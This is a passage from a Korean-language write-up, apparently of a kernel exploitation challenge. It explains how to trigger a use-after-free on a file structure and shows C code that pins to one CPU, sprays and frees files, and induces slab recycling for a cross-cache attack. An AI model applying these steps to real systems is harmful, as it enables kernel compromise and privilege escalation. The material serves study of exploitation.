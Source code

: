 위에서 봤듯, `copy_to_user()`를 실패시켜야 UAF를 트리거할 수 있다.
이는 `ioctl()` 호출 시 쓸 수 없는 메모리 주소를 넘기면 되기 때문에 간단하게 구현이 가능하다. 여기서는 `NULL`을 넘겨 쓰기가 실패하도록 했다. 
또한 `fd`값은 어차피 새로운 파일이 열릴 때마다 하나씩 증가하며 할당되므로, 직전에 할당된 `fd`가 무엇인지 알고 있으면 "[easy]"에 대한 `fd` 추론도 간단하게 할 수 있다. 

여기서 `file`구조체가 generic cache가 아닌 dedicated cache에 담긴다는 것을 고려하면 cross-cache attack을 고려해볼 수 있다. 
이를 위해 `ioctl()`을 호출해 UAF를 트리거하기 전 다른 `file`을 다수 할당해야 한다. 또한 공격 성공률을 높이기 위해 하나의 CPU만 사용해(즉, 하나의 `per-CPU` slab만 사용해)야 한다.


```c
void bind_core(int core) {
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}

int main() {
    ...
    // 우선 기존의 dedicated cache를 채워야 함
    printf("[*] spraying files, from 0 to %d\n", COUNT_FILES / 2 - 1);
    for (int i = 0; i < COUNT_FILES / 2; i++) {
      files[i] = open("/", O_RDONLY);
    }
    
    // 여기서 dangling file에 대한 fd를 유추해야 함
    // 마지막으로 할당받은 fd에서 하나 더한 값임
    int easy_fd = files[COUNT_FILES / 2 - 1] + 1;
    // 해제
    printf("[*] makeing dangling ptr\n");
    printf("[*] last allocated fd was %d\n", files[COUNT_FILES / 2 - 1]);
    ioctl(fd, 0, 0xdeadbeef);  
    // [easy]가 닫히며 이를 위한 file이 해제되나
    // easy_fd로 접근이 가능함 -> UAF
    
    // 나머지 file spray
    printf("[*] spraying files, from %d to %d\n", COUNT_FILES / 2, COUNT_FILES);
    for (int i = COUNT_FILES / 2; i < COUNT_FILES; i++) {
        files[i] = open("/", O_RDONLY);
    }
    ...
}
```

다음으로 열었던 파일들을 전부 닫아 slab 전체의 recycle을 유도한다.

```c
// 다 닫아서 recycle 유도
printf("Closing all files\n");
for (int i = 0; i < COUNT_FILES; i++) {
  close(files[i]);
}
```


[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.